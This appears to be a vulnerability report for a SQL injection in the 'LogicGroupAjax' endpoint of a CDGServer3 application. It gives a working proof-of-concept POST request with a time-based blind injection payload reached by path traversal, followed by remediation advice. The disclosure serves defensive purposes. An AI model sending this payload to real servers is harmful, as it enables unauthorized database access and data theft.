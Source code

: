 


# Vulnerability Report

## Vulnerability Type

SQL Injection

## Vulnerability Description

The `logicGroupName` parameter in the `LogicGroupAjax` interface is not properly validated and sanitized, leading to a SQL injection vulnerability. An attacker can craft a malicious `logicGroupName` parameter to execute arbitrary SQL queries, potentially accessing or modifying sensitive information in the database.


## POC

An attacker can test the vulnerability using the following POC:

```
POST /CDGServer3/js/../LogicGroupAjax HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded

command=isExist&logicGroupName=-1'waitfor delay '0:0:5'--
```

## Impact Scope

This vulnerability may affect all functionalities that use the `LogicGroupAjax` interface and allow user submission of the `logicGroupName` parameter.

## Remediation Suggestions

1. Strictly validate and sanitize the user input for the `logicGroupName` parameter to ensure it contains only legitimate values.
2. Use prepared statements to execute database queries to prevent SQL injection attacks.
3. Conduct regular security audits and code reviews to identify and remediate potential security vulnerabilities.
